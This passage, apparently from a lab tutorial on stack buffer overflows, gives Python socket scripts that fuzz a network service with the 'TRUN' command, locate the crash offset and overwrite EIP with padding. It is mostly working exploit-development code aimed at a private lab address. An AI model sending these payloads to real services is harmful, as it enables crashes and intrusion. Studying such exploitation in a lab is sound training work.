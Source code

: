 ```python

		s.send((payload.encode()))
		s.close()
		sleep(1)
		buffer = buffer + "A"*100
	except:
		print ("Fuzzing crashed at %s bytes" % str(len(buffer)))
		sys.exit()
```

### Finding the offset

```python
#!/usr/bin/python3

import sys, socket
from time import sleep

offset = "" #offset here

try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.4.104',9999))

	payload = "TRUN /.:/" + offset

	s.send((payload.encode()))
	s.close()
except:
	print ("Error connecting to server")
	sys.exit()

```

### Controlling the EIP
```python
#!/usr/bin/python3

import sys, socket
from time import sleep

shellcode = "A" * 2003 + "B" * 4

try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.4.104',9999))

	payload = "TRUN /.:/" + shellcode

	s.send((payload.encode()))
	s.close()
except:
	print ("Error connecting to server")
	sys.exit()
```
